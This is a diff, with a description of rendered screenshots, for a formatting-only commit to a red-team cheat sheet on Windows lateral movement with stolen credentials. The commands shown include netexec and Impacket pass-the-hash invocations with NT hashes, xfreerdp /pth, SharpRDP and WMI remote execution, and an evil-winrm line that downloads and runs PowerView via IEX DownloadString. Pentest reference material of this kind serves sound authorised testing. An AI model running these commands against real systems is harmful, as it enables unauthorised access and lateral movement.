

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/redteam/access/windows-using-credentials.md, in a window 1280 px wide and 900 px high, scrolled down 4526 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; emoji names are drawn with the system emoji font; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Fix markdown typo

````diff
--- a/docs/redteam/access/windows-using-credentials.md
+++ b/docs/redteam/access/windows-using-credentials.md
@@ -17,13 +17,12 @@
 * [Powershell Remoting Protocol](#powershell-remoting-protocol)
     * [Powershell Credentials](#powershell-credentials)
     * [Powershell PSSESSION](#powershell-pssession)
-    * [Powershell Secure String](#powershell-secure-strings)
+    * [Powershell Secure String](#powershell-secure-string)
 * [SSH Protocol](#ssh-protocol)
 * [WinRM Protocol](#winrm-protocol)
 * [WMI Protocol](#wmi-protocol)
-
-* [Other methods](#other-methods)
-    * [PsExec - Sysinternal](#psexec-sysinternal)
+* [Other Methods](#other-methods)
+    * [PsExec - Sysinternal](#psexec---sysinternal)
     * [Mount a remote share](#mount-a-remote-share)
     * [Run as another user](#run-as-another-user)
 
@@ -119,6 +118,7 @@
 Using [mpgn/netexec](https://github.com/Pennyw0rth/NetExec)
 
 * netexec supports many protocols
+
     ```powershell
     netexec ldap 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0"
     netexec mssql 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0"
@@ -126,13 +126,14 @@
     netexec smb 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0"
     netexec winrm 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0"
     ```
+
 * netexec works with password, NT hash and Kerberos authentication
+
     ```powershell
     netexec smb 192.168.1.100 -u Administrator -p "Password123?" # Password
     netexec smb 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0" # NT Hash
     export KRB5CCNAME=/tmp/kerberos/admin.ccache; netexec smb 192.168.1.100 -u admin --use-kcache # Kerberos
     ```
-
 
 ## Impacket
 
@@ -153,22 +154,31 @@
 | wmiexec.py  | tcp/135, tcp/445, tcp/50911 (Winmgmt) | Yes            |
 
 * `psexec`: equivalent of Windows PSEXEC using RemComSvc binary.
+
     ```ps1
     psexec.py DOMAIN/username:password@10.10.10.10
     ```
+
 * `smbexec`: a similar approach to PSEXEC w/o using RemComSvc
+
     ```ps1
     smbexec.py DOMAIN/username:password@10.10.10.10
     ```
+
 * `atexec`: executes a command on the target machine through the Task Scheduler service and returns the output of the executed command.
+
     ```ps1
     atexec.py DOMAIN/username:password@10.10.10.10
     ```
+
 * `dcomexec`: a semi-interactive shell similar to wmiexec.py, but using different DCOM endpoints
+
     ```ps1
     dcomexec.py DOMAIN/username:password@10.10.10.10
     ```
+
 * `wmiexec`: a semi-interactive shell, used through Windows Management Instrumentation. First it uses ports tcp/135 and tcp/445, and ultimately it communicates with the Winmgmt Windows service over dynamically allocated high port such as tcp/50911.
+
     ```ps1
     wmiexec.py DOMAIN/username:password@10.10.10.10
     wmiexec.py DOMAIN/username@10.10.10.10 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
@@ -178,7 +188,6 @@
 `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /f /d 1`
 To prevent RID 500 from being able to WmiExec or PsExec, execute:
 `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v FilterAdministratorToken /t REG_DWORD /f /d 1`
-
 
 ### PSExec
 
@@ -197,12 +206,10 @@
 
 Alternatively you can use the fork [ThePorgs/impacket](https://github.com/ThePorgs/impacket/pull/3/files).
 
-
 ### WMIExec
 
 Use a non default share `-share SHARE` to write the output to reduce the detection.
 By default this command is executed : `cmd.exe /Q /c cd 1> \\127.0.0.1\ADMIN$\__RANDOM 2>&1`
-
 
 ### SMBExec
 
@@ -236,7 +243,6 @@
         self.__serviceName = serviceName
 ```
 
-
 ## RDP Remote Desktop Protocol
 
 :warning: **NOTE**: You may need to enable RDP and disable NLA and fix CredSSP errors.
@@ -262,13 +268,16 @@
 Abuse RDP protocol to execute commands remotely with the following commands;
 
 * `rdesktop`
+
     ```powershell
     root@payload$ rdesktop -d DOMAIN -u username -p password 10.10.10.10 -g 70 -r disk:share=/home/user/myshare
     root@payload$ rdesktop -u username -p password -g 70% -r disk:share=/tmp/myshare 10.10.10.10
     # -g : the screen will take up 70% of your actual screen size
     # -r disk:share : sharing a local folder during a remote desktop session
     ```
+
 * `freerdp`
+
     ```powershell
     root@payload$ xfreerdp /v:10.0.0.1 /u:'Username' /p:'Password123!' +clipboard /cert-ignore /size:1366x768 /smart-sizing
     root@payload$ xfreerdp /v:10.0.0.1 /u:username # password will be asked
@@ -278,11 +287,12 @@
     # require freerdp2-x11 freerdp2-shadow-x11 packages instead of freerdp-x11
     root@payload$ xfreerdp /v:10.0.0.1 /u:username /d:domain /pth:88a405e17c0aa5debbc9b5679753939d
     ```
+
 * [SharpRDP](https://github.com/0xthirteen/SharpRDP)
+
     ```powershell
     PS C:\> SharpRDP.exe computername=target.domain command="C:\Temp\file.exe" username=domain\user password=password
     ```
-
 
 ## Powershell Remoting Protocol
 
@@ -296,6 +306,7 @@
 ### Powershell PSSESSION
 
 * Enable PSRemoting on the host
+
     ```ps1
     Enable-PSRemoting -Force
     net start winrm
@@ -306,6 +317,7 @@
     ```
 
 * Execute a single command
+
     ```powershell
     PS> Invoke-Command -ComputerName DC -Credential $cred -ScriptBlock { whoami }
     PS> Invoke-Command -computername DC01,CLIENT1 -scriptBlock { Get-Service }
@@ -313,6 +325,7 @@
     ```
 
 * Interact with a PS Session
+
     ```powershell
     PS> Enter-PSSession -computerName DC01
     [DC01]: PS>
@@ -324,7 +337,6 @@
     1
     ```
 
-
 ### Powershell Secure String
 
 ```ps1
@@ -335,16 +347,17 @@
 $decrypted
 ```
 
-
 ## WinRM Protocol
 
 **Requirements**:
+
 * Port **5985** or **5986** open.
 * Default endpoint is **/wsman**
 
 If WinRM is disabled on the system you can enable it using: `winrm quickconfig`
 
 The easiest way to interact over WinRM on Linux is with [Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)
+
 ```powershell
 evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM]
 evil-winrm -i 10.0.0.20 -u username -H HASH
@@ -354,31 +367,30 @@
 *Evil-WinRM* PS > IEX([Net.Webclient]::new().DownloadString("http://127.0.0.1/PowerView.ps1"))
 ```
 
-
 ## WMI Protocol
 
 ```powershell
 PS C:\> wmic /node:target.domain /user:domain\user /password:password process call create "C:\Windows\System32\calc.exe”
 ```
 
-
 ## SSH Protocol
 
 :warning: You cannot pass the hash to SSH
 
 * Connect using username/password of a Domain User
+
     ```ps1
     ssh -l user@domain 192.168.1.1
     ```
 
 * Connect with a Kerberos ticket
+
     ```ps1
     cp user.ccache /tmp/krb5cc_1045
     ssh -o GSSAPIAuthentication=yes user@domain.local -vv
     ```
 
-
-## Other methods
+## Other Methods
 
 ### PsExec - Sysinternal
 
@@ -397,7 +409,7 @@
 PS C:\> net use \\srv01.domain.local /user:DOMAIN\username password C$
 ```
 
-### Runas as another user
+### Run as another user
 
 Runas is a command-line tool that is built into Windows Vista.
 Allows a user to run specific tools and programs with different permissions than the user's current logon provides.
@@ -409,12 +421,12 @@
 
 ## References
 
-- [Ropnop - Using credentials to own Windows boxes](https://blog.ropnop.com/using-credentials-to-own-windows-boxes/)
-- [Ropnop - Using credentials to own Windows boxes Part 2](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/)
-- [Gaining Domain Admin from Outside Active Directory](https://markitzeroday.com/pass-the-hash/crack-map-exec/2018/03/04/da-from-outside-the-domain.html)
-- [Impacket Remote code execution on Windows from Linux by Vry4n_ - Jun 20, 2021](https://vk9-sec.com/impacket-remote-code-execution-rce-on-windows-from-linux/)
-- [Impacket Exec Commands Cheat Sheet - 13cubed](https://www.13cubed.com/downloads/impacket_exec_commands_cheat_sheet.pdf)
-- [SMB protocol cheatsheet - aas-s3curity](https://aas-s3curity.gitbook.io/cheatsheet/internalpentest/active-directory/post-exploitation/lateral-movement/smb-protocol)
-- [Windows Lateral Movement with smb, psexec and alternatives - nv2lt](https://nv2lt.github.io/windows/smb-psexec-smbexec-winexe-how-to/)
-- [PsExec.exe IOCs and Detection - Threatexpress](https://threatexpress.com/redteaming/tool_ioc/psexec/)
-- [A Dive on SMBEXEC - dmcxblue - 8th Feb 2021](https://0x00sec.org/t/a-dive-on-smbexec/24961)
+* [Ropnop - Using credentials to own Windows boxes](https://blog.ropnop.com/using-credentials-to-own-windows-boxes/)
+* [Ropnop - Using credentials to own Windows boxes Part 2](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/)
+* [Gaining Domain Admin from Outside Active Directory](https://markitzeroday.com/pass-the-hash/crack-map-exec/2018/03/04/da-from-outside-the-domain.html)
+* [Impacket Remote code execution on Windows from Linux by Vry4n_ - Jun 20, 2021](https://vk9-sec.com/impacket-remote-code-execution-rce-on-windows-from-linux/)
+* [Impacket Exec Commands Cheat Sheet - 13cubed](https://www.13cubed.com/downloads/impacket_exec_commands_cheat_sheet.pdf)
+* [SMB protocol cheatsheet - aas-s3curity](https://aas-s3curity.gitbook.io/cheatsheet/internalpentest/active-directory/post-exploitation/lateral-movement/smb-protocol)
+* [Windows Lateral Movement with smb, psexec and alternatives - nv2lt](https://nv2lt.github.io/windows/smb-psexec-smbexec-winexe-how-to/)
+* [PsExec.exe IOCs and Detection - Threatexpress](https://threatexpress.com/redteaming/tool_ioc/psexec/)
+* [A Dive on SMBEXEC - dmcxblue - 8th Feb 2021](https://0x00sec.org/t/a-dive-on-smbexec/24961)
````
Also changed, not shown: docs/active-directory/ad-adcs-certificate-services.md (+10 -8 lines).
